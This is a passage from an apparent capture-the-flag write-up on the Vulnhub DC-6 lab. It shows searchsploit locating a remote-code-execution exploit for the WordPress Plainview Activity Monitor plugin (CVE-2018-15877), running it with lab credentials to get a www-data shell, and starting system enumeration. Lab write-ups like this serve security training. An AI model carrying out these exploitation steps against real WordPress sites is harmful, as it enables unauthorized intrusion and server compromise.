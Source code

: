 It looks like there is an activity monitor plugin available on this WordPress.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-6]
└─$ searchsploit activity monitor plugin
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Plainview Activity Monitor 20161228 - (Authenticated) Command In | php/webapps/45274.html
WordPress Plugin Plainview Activity Monitor 20161228 - Remote Code Execution (RCE | php/webapps/50110.py
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results

```

It looks like there are some exploits available. But first we have to be sure this plugin is vulnerable.
Let's copy the Remote Code Execution exploit to our working directory.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-6]
└─$ searchsploit -m 50110               
  Exploit: WordPress Plugin Plainview Activity Monitor 20161228 - Remote Code Execution (RCE) (Authenticated) (2)
      URL: https://www.exploit-db.com/exploits/50110
     Path: /usr/share/exploitdb/exploits/php/webapps/50110.py
    Codes: CVE-2018-15877
 Verified: False
File Type: Python script, Unicode text, UTF-8 text executable
Copied to: /home/emvee/Documents/Vulnhub/DC-6/50110.py

```
Now check the exploit and if it is okay, then run the exploit.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-6]
└─$ python3 50110.py
What's your target IP?
10.0.2.36
What's your username?
mark
What's your password?
helpdesk01
[*] Please wait...
[*] Perfect! 
www-data@10.0.2.36  

```
It worked, we got a shell on the target.
```bash
www-data@10.0.2.36  whoami
www-data
www-data@10.0.2.36  hostname
dc-6

```
Now let's enumerate the Linux distro and kernel version.
```bash
www-data@10.0.2.36  uname -a
Linux dc-6 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
www-data@10.0.2.36  uname -mrs 
Linux 4.9.0-8-amd64 x86_64
www-data@10.0.2.36  cat /proc/version
```